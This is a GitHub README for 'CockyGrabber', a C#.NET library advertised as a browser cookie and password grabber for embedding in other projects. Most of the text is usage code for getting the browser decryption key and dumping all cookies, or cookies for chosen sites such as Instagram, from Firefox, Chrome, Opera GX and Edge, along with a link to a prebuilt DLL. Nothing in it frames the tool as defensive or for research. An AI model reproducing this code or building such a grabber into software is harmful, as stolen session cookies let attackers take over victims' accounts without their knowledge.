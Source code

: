 #### 💣 Old CockyGrabber got deleted by TheBackdoor - Made by TheBackdoor and me 💣

# CockyGrabber
A Browser Cookies & Passwords Grabber C#.NET Library that you can itegrate in your Projects.
*(More Supported Browsers in Future!)*

## Download: 

For download all necessary packages, you can do from nuget with searching `CockyGrabber` and download the 1.2.0 version. once done, just download the library from the last [release](https://github.com/TheBackdoor/CockyGrabber/releases/download/2.1.0/webGrabber.dll).

## Usage:
**Import Cockygrabber classes:**</br>
It's not necessary but it will look better if you import CockyGrabber:
```cs
using CockyGrabber;
using Cookie = CockyGrabber.Classes.Cookie;
```
</br>
then you will need to import a few packages to make CockyGrabber work

```cs
using System.Data.SQLite; // link: https://www.nuget.org/packages/System.Data.SQLite/
using Newtonsoft.Json; // link: https://www.nuget.org/packages/Newtonsoft.Json/
using System.Security.Cryptography.ProtectedData; // link: https://www.nuget.org/packages/System.Security.Cryptography.ProtectedData
using BouncyCastle; // link: https://www.nuget.org/packages/BouncyCastle/
```


</br>
</br>

**Getting The Key to decrypt cookies:**</br>
First you need to get a Key to decrypt the Cookies.

Replace `[GrabberClass]` with the Cookie Grabber Class you want to use (OperaGxGrabber/ChromeGrabber. Firefox doesn't need a key because it don't encrypts cookies)
```cs
[GrabberClass] grabber = new [GrabberClass]
byte[] keyToDecryptEncrypedDB = grabber.GetKey();
```
</br>
</br>

**Grabbing Cookies:**</br>
Cookie Grabbing with CockyGrabber is *REALLY EASY*.
</br>
</br>
*Cookie Hostname examples: ".instagram.com" for instagram cookies, ".github.com" for github cookies, ".stackoverflow.com" for stackoverflow cookies, ...*
</br>
</br>
</br>


Firefox Cookie Grabbing:

```cs
FirefoxGrabber grabber = new FirefoxGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com"))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies())
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
} 
```
</br>
</br>

Chrome Cookie Grabbing:
</br>
Since Chrome cookie values are encrypted with BLOB, we need a key to decrypt the data. (I defined the key on line 21, README.md)
</br>

```cs
ChromeGrabber grabber = new ChromeGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com", keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies(keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}
```

</br>
</br>

OperaGx Cookie Grabbing:
</br>
OperaGx also encrypts cookies so you need a key here too.
</br>

```cs
OperaGxGrabber grabber = new OperaGxGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com", keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies(keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}
```
</br>
</br>

Edge Cookie Grabbing:
</br>
Edge also encrypts cookies so you need a key here too.
</br>

```cs
EdgeGrabber grabber = new EdgeGrabber();

// Get cookies by hostname:
foreach(Cookie cookie in grabber.GetCookiesByHostname(".instagram.com", keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}

// Get All cookies:
foreach(Cookie cookie in grabber.GetAllCookies(keyToDecryptEncrypedDB))
{
    string cookieHostname = cookie.HostName;
    string cookieName = cookie.Name;
    string cookieValue = cookie.Value;
    Console.WriteLine($"{cookieHostname} = {cookieName}: {cookieValue}");
}
```
</br>
</br>

## End
</br>
Yea thats it for now. Fork/Star/Watch this repo to dont miss new releases!
</br>
</br>
If you want to script with me then create a Issue!
</br>
---
</br>

If you found any **Bugs** then please create a Issue!
